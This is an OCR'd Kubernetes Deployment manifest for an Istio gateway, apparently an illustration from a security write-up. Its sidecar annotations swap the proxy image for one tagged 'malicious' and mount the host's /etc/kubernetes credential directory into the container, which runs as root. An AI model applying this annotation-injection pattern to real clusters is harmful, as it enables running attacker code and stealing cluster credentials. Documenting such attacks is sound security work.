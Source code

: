```yaml
    matchLabels:
      istio.io/gateway-name: gateway
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      annotations:
        inject.istio.io/templates: sidecar
        [...]
        sidecar.istio.io/proxyImage: docker.io/shtesla/proxyv2:malicious
        sidecar.istio.io/userVolume: '[{"name":"kubernetes-dir","hostPath": {"path":"/etc/kubernetes","type":"Directory"}}]'
        sidecar.istio.io/userVolumeMount: '[{"mountPath":"/tmp/test","name":"kubernetes-dir"}]'
      creationTimestamp: null
      labels:
        istio.io/gateway-name: gateway
        sidecar.istio.io/inject: "true"
    spec:
      containers:
      - image: auto
        imagePullPolicy: Always
        name: istio-proxy
        ports:
        - containerPort: 15021
          name: status-port
          protocol: TCP
        readinessProbe:
          failureThreshold: 10
          httpGet:
            path: /healthz/ready
            port: 15021
            scheme: HTTP
          periodSeconds: 2
          successThreshold: 1
          timeoutSeconds: 2
        resources: {}
        securityContext:
          allowPrivilegeEscalation: true
          capabilities:
            add:
            - NET_BIND_SERVICE
            drop:
            - ALL
          readOnlyRootFilesystem: true
          runAsGroup: 1337
          runAsNonRoot: false
          runAsUser: 0
        terminationMessagePath: /dev/termination-log
        terminationMessagePolicy: File
      dnsPolicy: ClusterFirst
      restartPolicy: Always
      schedulerName: default-scheduler
      securityContext: {}
      terminationGracePeriodSeconds: 30
```
